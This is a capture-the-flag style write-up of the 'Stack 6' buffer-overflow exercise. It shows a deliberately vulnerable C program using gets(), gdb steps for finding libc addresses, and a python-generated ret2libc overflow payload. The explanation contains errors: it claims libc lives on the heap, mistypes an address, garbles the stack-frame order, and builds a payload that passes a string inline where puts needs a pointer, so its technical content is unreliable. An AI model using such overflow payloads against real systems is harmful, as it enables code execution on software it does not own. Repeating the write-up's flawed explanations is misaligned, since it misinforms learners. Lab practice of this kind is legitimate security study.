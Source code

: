 ###Stack 6 Exploit

####Introduction

This is similar to other stack exploits, but with a slightly inconvient security feature. The source code implements a rough
check to verify if the return address of a function is pointing to the stack. If it is, it will not execute the code.
Below is the source code:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();



}
```

####Exploit

We will get around this functionality by executing what is known as a `ret2libc` command. Essentially, we will set the return
address of the function to be a a `libc` library function which is stored on the heap and is always executable. We can feed these 
functions arbitary arguements and get them to execute.  

As we know, the order of a stack frame goes: 
```
function address
return address
parameters
```

So for our program to exit gracefully without causing a segfault and potentially alerting monitors our exploit stack frame should look
like:
```
address of puts()
address of exit()
parameter for puts(), "Hi Ben!"
```

So first lets find the address of puts() and exit().  

Lets run our exploit program in `gdb`
`gdb ./stack6`
`run`
now enter any charcater to advacne the program.
Now we can load the addresses of libc functions
`p puts`
This outputs `$1 = {<text variable, no debug info>} 0xb7ef4780 <_IO_puts>`  
This shows us the address of `puts` is `0xb7ef470`  
Doing the same for `exit` shows us that its adddress is `0xb7ec60c0`

Now we need to find a buffer that we can overflow in order to write the return address of `getpath` to be the address of `puts`
To do this we can call our program again with `gdb ./stack6`
Now lets disassemble the `getpath` function 
Run `disas getpath` you should see output like:
![Output](../../image.png)
We can identify the location of the buffer being allocated for looking for the `lea` assembly command. This command is called when
memory is allocated. We can see its memory address is `-0x4c(%ebp)`.  
What that is saying is that the buffer is allocated 76 (0x4c) bytes before the EBP pointer. Since we know that the return address
is stored 4 bytes after the EBP pointer we know whatever we right 80 bytes into our buffer will be the new return address. Now lets
create a string to do this. 
I'm going to pipe some python into a file to run.   
`'python -c '"B"*80 +"\x80\x47\xef\xb7"+"\xc0\x60\xec\xb7"+"Hi ben"` > /tmp/payload`
So this creates a string that looks like `BBBBBB...(80 Bs)<Address of puts><Address of exit><Parameter passed to puts>`  

So now `./stack6 < /tmp/payload` will execute the folllowing after returning from `getpath`:
```
puts("Hi ben");
exit()
```
